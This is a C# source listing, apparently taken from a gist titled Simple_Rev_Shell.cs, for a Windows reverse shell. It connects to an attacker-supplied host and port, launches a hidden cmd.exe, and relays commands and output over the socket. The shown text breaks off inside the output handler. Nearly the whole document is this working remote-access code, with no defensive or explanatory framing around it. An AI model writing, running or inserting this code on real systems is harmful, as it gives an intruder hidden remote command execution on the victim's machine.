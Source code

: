```csharp
// From https://gist.githubusercontent.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc/raw/1b6c32ef6322122a98a1912a794b48788edf6bad/Simple_Rev_Shell.cs
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
public class Program
{
static StreamWriter streamWriter;

public static void Main(string[] args)
{
using(TcpClient client = new TcpClient(args[0], System.Convert.ToInt32(args[1])))
{
using(Stream stream = client.GetStream())
{
using(StreamReader rdr = new StreamReader(stream))
{
streamWriter = new StreamWriter(stream);

StringBuilder strInput = new StringBuilder();

Process p = new Process();
p.StartInfo.FileName = "cmd.exe";
p.StartInfo.CreateNoWindow = true;
p.StartInfo.UseShellExecute = false;
p.StartInfo.RedirectStandardOutput = true;
p.StartInfo.RedirectStandardInput = true;
p.StartInfo.RedirectStandardError = true;
p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
p.Start();
p.BeginOutputReadLine();

while(true)
{
strInput.Append(rdr.ReadLine());
//strInput.Append("\n");
p.StandardInput.WriteLine(strInput);
strInput.Remove(0, strInput.Length);
}
}
}
}
}

private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
{
StringBuilder strOutput = new StringBuilder();

if (!String.IsNullOrEmpty(outLine.Data))
{
try
{
strOutput.Append(outLine.Data);
streamWriter.WriteLine(strOutput);
```